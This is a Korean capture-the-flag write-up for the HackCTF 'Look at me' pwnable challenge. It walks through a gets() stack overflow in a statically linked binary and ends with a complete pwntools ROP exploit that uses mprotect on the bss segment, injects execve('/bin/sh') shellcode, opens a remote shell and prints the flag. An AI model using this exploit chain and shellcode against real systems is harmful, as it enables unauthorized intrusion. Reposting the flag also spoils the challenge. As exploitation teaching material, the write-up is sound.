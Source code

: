 #Look at me

---

우선 `main()`의 코드는 다음과 같다.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch]

  setvbuf(stdout, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  look_at_me();
  return 0;
}
</pre>

여기서 `look_at_me()`라는 함수가 중요해보인다. 이 함수의 코드를 보자.

<pre>
int look_at_me()
{
  char v1; // [esp+0h] [ebp-18h]

  puts("Hellooooooooooooooooooooo");
  return gets(&v1);
}
</pre>

gets함수를 통해서 대놓고 bufferoverflow 취약점을 주고 있다. 이를 이용해서 stackoverflow를 이용하면 될 것이다.

이 프로세스에 걸린 보호기법을 살펴보면 다음과 같다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
</pre>

NX가 걸려있기 때문에 shellcode를 사용할 수는 없으며, CANARY가 걸려있지 않아서 원하는대로 ret주소를 조작할 수 있다.


---


쉘을 따기 위해서 system함수에 "/bin/sh" 인자를 주려고 하였으나 system 이 프로세스에 system함수가 존재하지 않았다.

<pre>
gdb-peda$ p system
No symbol table is loaded.  Use the "file" command.
</pre>

때문에 다른 함수를 이용하여야 했는데 그 중에서 `mprotect()`라는 함수가 보였다.

`mprotect()`함수는 메모리의 권한을 변경해주는 함수이다. 현재는 NX보호기법 때문에 stack에 실행권한이 없기 때문에 shellcode를 사용하지 못하였다. 하지만 `mprotect()`함수를 이용해서 stack의 특정부분에 실행권한을 부여한다면 shellcode를 이용하여 익스플로잇을 할 수 있을 것이다.

`mprotect()`함수의 형태는 다음과 같다.

**int mprotect(const void \*addr, size_t len, int prot)**

첫 번째 인자인 addr은 권한을 변경하고자 하는 메모리의 주소, 두 번째 인자인 len은 메모리의 길이, 세 번째 인자인 prot는 권한을 나타낸다. 이때, 주의해야할 점은 addr의 메모리가 0x1000의 배수여야 한다는 점이다.

이를 이용해서 익스플로잇을 진행해보자.

---

우선 `puts()`를 이용해서 ebp의 주소값을 출력하여 stack의 위치를 알아내고, 해당 위치의 주소값에 `mprotect()`를 이용해서 실행권한을 부여하고, 그 밑에 shellcode를 삽입하여 익스할 것이다.

이와 같이 한다면 완벽하겠지만 `puts()`를 이용해서 ebp의 주소값을 출력하기 번거롭기 때문에 고정주소인 bss영역을 이용하여 해당 공간에 shellcode를 삽입하여 `mprotect()`함수로 실행권한을 부여하도록 하겠다. 이를 위해서 필요한 정보들은 다음과 같다.

**mprotect 함수 주소 <br>
gets 함수 주소<br>
"pop ret" gadget<br>
bss영역 주소<br>
"pppr" gadget**

`mprotect()`함수와 `gets()` 함수의 주소는 다음과 같다.

    gdb-peda$ p mprotect
    $1 = {<text variable, no debug info>} 0x806e0f0 <mprotect>
    gdb-peda$ p gets
    $2 = {<text variable, no debug info>} 0x804f120 <gets>

**mprotect\_address=0x806e0f0**<br>
**gets\_address=0x804f120**

pppr gadget의 위치는 ropsearch로 찾아지지 않아서 `puts()`함수에 있는 다음 부분을 이용하였다.

    gdb-peda$ pd puts
    Dump of assembler code for function puts:
    ...
       0x0804f3af <+271>:	pop esi
       0x0804f3b0 <+272>:	pop edi
       0x0804f3b1 <+273>:	pop ebp
       0x0804f3b2 <+274>:	ret
    ...
    End of assembler dump.


**pppr\_gadget=0x804f3af**<br>i
**pr\_gadget=0x804f3b1**

bss영역의 주소는 다음과 같다.
<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/18.Lookatme$ readelf -S lookatme
There are 31 section headers, starting at offset 0xb0cd0:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
...
  [25] .bss              NOBITS          080eaf80 0a1f80 000e0c 00  WA  0   0 32
...
</pre>
**bss\_address=0x80eaf80**

마지막으로 `look_at_me()`의 어셈블리 코드를 보면 buf의 위치가 [ebp-0x18]이기 때문에 28bytes의 dummy가 필요한 것을 알 수 있다.

<pre>
gdb-peda$ pd look_at_me
Dump of assembler code for function look_at_me:
   0x0804887c <+0>:	push   ebp
   0x0804887d <+1>:	mov    ebp,esp
   0x0804887f <+3>:	sub    esp,0x18
   0x08048882 <+6>:	sub    esp,0xc
   0x08048885 <+9>:	push   0x80bb328
   0x0804888a <+14>:	call   0x804f2a0 <puts>
   0x0804888f <+19>:	add    esp,0x10
   0x08048892 <+22>:	sub    esp,0xc
   0x08048895 <+25>:	lea    eax,[ebp-0x18]
   0x08048898 <+28>:	push   eax
   0x08048899 <+29>:	call   0x804f120 <gets>
   0x0804889e <+34>:	add    esp,0x10
   0x080488a1 <+37>:	leave  
   0x080488a2 <+38>:	ret    
End of assembler dump.
</pre>

이를 통해서 다음과 같이 익스플로잇 코드를 짤 수 있었다.

<pre>
from pwn import*

mprotect_address=0x806e0f0
gets_address=0x804f120
pr_gadget=0x804f3b1
pppr_gadget=0x804f3af
bss_start=0x80ea000
bss_address=0x80eaf80

p=remote('ctf.j0n9hyun.xyz',3017)

p.recvline()

payload='A'*28
payload+=p32(mprotect_address)
payload+=p32(pppr_gadget)
payload+=p32(bss_start)
payload+='\x00\x20\x00\x00'
payload+=p32(7)
payload+=p32(gets_address)
payload+=p32(pr_gadget)
payload+=p32(bss_address)
payload+=p32(bss_address)

shellcode='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'

p.sendline(payload)

p.sendline(shellcode)

p.interactive()
</pre>

flag는 다음과 같다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/18.Lookatme$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3017: Done
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{Did_you_understand_the_static_linking_method?}

**flag: HackCTF{Did_you_understand_the_static_linking_method?}**

---

이 방법을 제외하고도 `mmap()`함수를 이용하여 실행권한을 가진 메모리를 직접 할당하고 해당 영역에 shellcode를 삽입하는 방법도 존재한다.
